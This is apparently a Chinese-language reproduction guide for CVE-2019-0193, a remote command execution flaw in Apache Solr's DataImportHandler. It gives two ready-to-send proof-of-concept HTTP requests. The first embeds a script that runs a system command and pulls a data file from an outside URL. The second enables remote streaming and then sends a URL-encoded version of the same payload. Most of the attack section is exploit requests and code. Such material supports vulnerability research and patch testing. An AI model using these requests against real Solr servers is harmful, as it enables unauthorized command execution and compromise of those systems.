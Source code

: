 # （CVE-2019-0193）Apache Solr 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2826](https://www.zhihuifly.com/t/topic/2826)

# （CVE-2019-0193）Apache Solr 远程命令执行漏洞

## 一、漏洞简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 二、漏洞影响

Apache Solr < 8.2.0

## 三、复现过程

### poc 一 ：需要目标出网，支持低版本检测

> 判断该索引库是否使用了DataImportHandler模块

*   访问 `http://www.0-sec.org:8983/solr/test_0nth3way/admin/mbeans?cat=QUERY&wt=json`

*   如果使用了`DataImportHandler`模块 则HTTP响应内会有: `org.apache.solr.handler.dataimport.DataImportHandler`

![1.png](img/cc8112602ce8f8a955f207bfc2e482da.png)

*   构造HTTP请求，远程执行代码

```
POST /solr/test_0nth3way/dataimport HTTP/1.1
Host: www.0-sec.org:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.17.136:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 1231
Connection: close

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test_0nth3way&name=dataimport&dataConfig=

<dataConfig>

<dataSource type=“URLDataSource”/>

<script><![CDATA[

```
 function poc(row){ 
```

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(“id”).getInputStream()));

var result = [];

while(true) {

var oneline = bufReader.readLine();

result.push( oneline );

if(!oneline) break;

}

row.put(“title”,result.join("\n\r"));

return row;

}

]]></script>

```
 &lt;document&gt;
         &lt;entity name="entity1"
                 url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                 processor="XPathEntityProcessor"
                 forEach="/RDF/item"
                 transformer="script:poc"&gt;
                    &lt;field column="title" xpath="/RDF/item/title" /&gt;
         &lt;/entity&gt;
    &lt;/document&gt; 
```

</dataConfig> 
```

> demo.xml

> 若如上github因不可抗因素失效，可自行用自己vps搭建demo.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF> 
```

![2.png](img/4d4d05d5c7a79f593af9549ccc4c8a78.png)

### poc 二 ：不需要目标出网，不支持低版本检测

*   判断该索引库是否使用了`DataImportHandler`模块（同上）

*   修改`configoverlay.json`文件中的配置，以启用远程流的相关选项 （enableStreamBody、enableRemoteStreaming） 注：某些低版本会不成功，即响应500；成功响应200

```
POST /solr/test_0nth3way/config HTTP/1.1
Host: www.0-sec.org:8983
Accept: */*
Content-type:application/json
Content-Length: 159
Connection: close `{“set-property”: {“requestDispatcher.requestParsers.enableRemoteStreaming”: true}, “set-property”: {“requestDispatcher.requestParsers.enableStreamBody”: true}}` 
```

*   构造HTTP请求，远程执行代码

```
POST /solr/test_0nth3way/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test_0nth3way&name=dataimport&dataConfig=%3c%64%61%74%61%43%6f%6e%66%69%67%3e%0a%3c%64%61%74%61%53%6f%75%72%63%65%20%6e%61%6d%65%3d%22%73%74%72%65%61%6d%73%72%63%22%20%74%79%70%65%3d%22%43%6f%6e%74%65%6e%74%53%74%72%65%61%6d%44%61%74%61%53%6f%75%72%63%65%22%20%6c%6f%67%67%65%72%4c%65%76%65%6c%3d%22%54%52%41%43%45%22%20%2f%3e%0a%0a%20%20%3c%73%63%72%69%70%74%3e%3c%21%5b%43%44%41%54%41%5b%0a%20%20%20%20%20%20%20%20%20%20%66%75%6e%63%74%69%6f%6e%20%70%6f%63%28%72%6f%77%29%7b%0a%20%76%61%72%20%62%75%66%52%65%61%64%65%72%20%3d%20%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%69%64%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%29%3b%0a%0a%76%61%72%20%72%65%73%75%6c%74%20%3d%20%5b%5d%3b%0a%0a%77%68%69%6c%65%28%74%72%75%65%29%20%7b%0a%76%61%72%20%6f%6e%65%6c%69%6e%65%20%3d%20%62%75%66%52%65%61%64%65%72%2e%72%65%61%64%4c%69%6e%65%28%29%3b%0a%72%65%73%75%6c%74%2e%70%75%73%68%28%20%6f%6e%65%6c%69%6e%65%20%29%3b%0a%69%66%28%21%6f%6e%65%6c%69%6e%65%29%20%62%72%65%61%6b%3b%0a%7d%0a%0a%72%6f%77%2e%70%75%74%28%22%74%69%74%6c%65%22%2c%72%65%73%75%6c%74%2e%6a%6f%69%6e%28%22%5c%6e%5c%72%22%29%29%3b%0a%72%65%74%75%72%6e%20%72%6f%77%3b%0a%0a%7d%0a%0a%5d%5d%3e%3c%2f%73%63%72%69%70%74%3e%0a%0a%3c%64%6f%63%75%6d%65%6e%74%3e%0a%20%20%20%20%3c%65%6e%74%69%74%79%0a%20%20%20%20%20%20%20%20%73%74%72%65%61%6d%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%6e%61%6d%65%3d%22%65%6e%74%69%74%79%31%22%0a%20%20%20%20%20%20%20%20%64%61%74%61%73%6f%75%72%63%65%3d%22%73%74%72%65%61%6d%73%72%63%31%22%0a%20%20%20%20%20%20%20%20%70%72%6f%63%65%73%73%6f%72%3d%22%58%50%61%74%68%45%6e%74%69%74%79%50%72%6f%63%65%73%73%6f%72%22%0a%20%20%20%20%20%20%20%20%72%6f%6f%74%45%6e%74%69%74%79%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%66%6f%72%45%61%63%68%3d%22%2f%52%44%46%2f%69%74%65%6d%22%0a%20%20%20%20%20%20%20%20%74%72%61%6e%73%66%6f%72%6d%65%72%3d%22%73%63%72%69%70%74%3a%70%6f%63%22%3e%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%3c%66%69%65%6c%64%20%63%6f%6c%75%6d%6e%3d%22%74%69%74%6c%65%22%20%78%70%61%74%68%3d%22%2f%52%44%46%2f%69%74%65%6d%2f%74%69%74%6c%65%22%20%2f%3e%0a%20%20%20%20%3c%2f%65%6e%74%69%74%79%3e%0a%3c%2f%64%6f%63%75%6d%65%6e%74%3e%0a%3c%2f%64%61%74%61%43%6f%6e%66%69%67%3e HTTP/1.1
Host: www.0-sec.org:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.17.136:8983/solr/
Content-Length: 212
content-type: multipart/form-data; boundary=------------------------aceb88c2159f183f

--------------------------aceb88c2159f183f

Content-Disposition: form-data; name=“stream.body”

<?xml version=“1.0” encoding=“UTF-8”?>

<RDF>

<item/>

</RDF> `--------------------------aceb88c2159f183f–` 
```

> 注：其中dataConfig的值，URLencode之前为以下字符串

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

<script><![CDATA[

function poc(row){

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(“id”).getInputStream()));

var result = [];

while(true) {

var oneline = bufReader.readLine();

result.push( oneline );

if(!oneline) break;

}

row.put(“title”,result.join("\n\r"));

return row;

}

]]></script> `<document>

<entity

stream=“true”

name=“entity1”

datasource=“streamsrc1”

processor=“XPathEntityProcessor”

rootEntity=“true”

forEach="/RDF/item"

transformer=“script:poc”>

<field column=“title” xpath="/RDF/item/title" />

</entity>

</document>

</dataConfig>` 
```

![3.png](img/8c0426c1225a8e48f1254bf0ca6aa580.png)

## 参考链接

> https://www.cnblogs.com/0nth3way/p/11908763.html